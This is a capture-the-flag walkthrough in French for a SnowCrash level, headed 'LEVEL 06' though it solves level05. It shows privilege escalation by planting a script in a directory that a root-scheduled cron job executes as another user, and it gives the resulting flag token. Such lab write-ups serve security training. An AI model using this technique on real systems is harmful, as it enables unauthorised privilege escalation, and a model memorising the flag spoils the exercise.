# LEVEL 06
- On test le usual:
```
level05@SnowCrash:~$ ls -l
total 0
```
- On cherche les fichiers du user Level05
```
find / -name level05 2>&-
/var/mail/level05
```

- On trouve un script cron qui se lance une minute sur deux
```
cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

- On regarde le contenu du script `cat /usr/sbin/openarenaserver`
```sh
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

- Ce script execute tous les scripts presents dans /opt/openarenaserver/, on y créer donc notre script bash pour executer la commande getflag:
```
echo "getflag > /var/crash/flag05" > /opt/openarenaserver/lol
```
Wait two minutes....

```
cat /var/crash/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

## ⚡ Flag
`viuaaale9huek52boumoomioc`
